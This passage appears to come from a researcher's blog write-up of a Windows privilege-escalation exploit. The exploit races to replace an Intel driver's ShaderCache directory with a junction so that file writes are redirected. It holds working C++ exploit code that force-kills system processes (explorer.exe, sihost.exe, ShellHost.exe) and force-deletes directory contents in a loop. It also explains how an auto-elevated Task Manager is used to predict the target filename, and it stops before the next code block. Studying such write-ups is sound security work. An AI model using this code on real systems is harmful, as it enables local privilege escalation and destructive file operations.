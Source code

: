 The final piece to the puzzle was deleting all the files that were being created by processes that the Intel driver worked with.  I basically setup a loop that continued to check if certain procesces were still running and if so, kill them and try and delete files in the directory.  I also placed a check for when the directory is empty, which at that point means we can create our junction!  This is a race condition btw, as we have to be quick to create our junction since `sihost.exe` and `ShellHost.exe` are constantly writing to this directory.  😆

```cpp
void checkdir()
{
    std::wstring dir = L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache";

    WinExec("cmd.exe /c TASKKILL /F /IM explorer.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM sihost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM ShellHost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM ApplicationFrameHost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    std::wstring checkEmpty = GetMostRecentFile(dir);

    if (checkEmpty.empty()) {
        std::wcerr << L"Good news! No files found in the directory :)  Deleting directory and creating the junction!\n";
        WinExec("cmd.exe /c rmdir /S /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", 0);
        Sleep(1000);
    }
    else {
        std::wcout << L"There are still files...continuing to kill tasks and delete stuff...Remaining file: " << checkEmpty << std::endl;
        Sleep(1000);
        checkdir();
    }
}
```

There's another element to this exploit I should mention is also required.  Not only are we creating a junction, but we will also be performing an arbitrary write where we redirect a file create / file write operation to a directory and file of our choosing after creating the junction.  But in order to do so, we need to know the name of a file that gets created by the Intel driver in advance.  That was another tricky aspect of this exploit, I'll admit.  Why is it tricky?  Well, the filename is random...sort of.  It changes after logoff and rebooting the machine.  Here's how I addressed that issue.  I kickoff an instance of Task Manager which is autoelevated, and Taskmanager immediately starts writing to the ShaderCache directory.  I get the most recent file written to the directory, which in this case, would be the file(s) written by TaskManager.  I then save that to a `.txt` file to read later.  Check it out:
